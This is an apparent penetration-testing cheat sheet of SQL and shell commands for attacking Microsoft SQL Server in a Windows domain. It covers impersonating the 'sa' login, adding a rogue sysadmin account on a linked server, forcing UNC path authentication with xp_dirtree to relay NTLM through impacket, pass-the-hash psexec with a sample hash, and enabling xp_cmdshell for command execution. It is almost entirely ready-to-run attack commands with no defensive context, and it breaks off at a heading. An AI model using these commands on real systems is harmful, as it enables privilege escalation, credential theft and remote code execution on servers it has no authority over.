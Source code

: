 #### [Login can be impersonated]
```sql
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
```
#### [Impersonate Sysadmin]
```sql
EXECUTE AS LOGIN='sa';

use msdb; EXECUTE AS USER='dbo';
```
#### [Create a new Sysadmin]
```sql
exec ('exec sp_addlogin "zys","Passw0rd"') at [sql01];

exec ('exec sp_addsrvrolemember "zys","sysadmin"') at [sql01];
```

#### [Check link]
```sql
select * from master..sysservers;

exec sp_linkedservers
```
#### [UNC Path Injection]

```bash
proxychains python3 impacket/examples/ntlmrelayx.py  --no-http-server -smb2support -t 172.16.221.152 -c

EXEC xp_dirtree '[\\192.168.x.y\pwn](file://192.168.x.y/pwn)', 1, 1

proxychains python3 impacket/examples/psexec.py -hashes :a7a662ffa4744b6393261529aa5004ad administrator@172.16.y.z

EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC master.dbo.xp_cmdshell 'whoami';
```
#### [Command Execution]
EXEC
```sql
EXEC master.dbo.xp_cmdshell 'whoami';
```
Openquery (Blind)
```sql
Select * From openquery("reddc", 'select @@servername; exec xp_cmdshell ''ping 192.168.x.y'' ');
```

Check Rpcout
```sql
select srvid,srvname,rpcout from master..sysservers;
```
Enable Rpcout
```sql
exec sp_serveroption 'sql03', 'rpc out', 'true';
```
### Bidirectional Trust Within a Forest
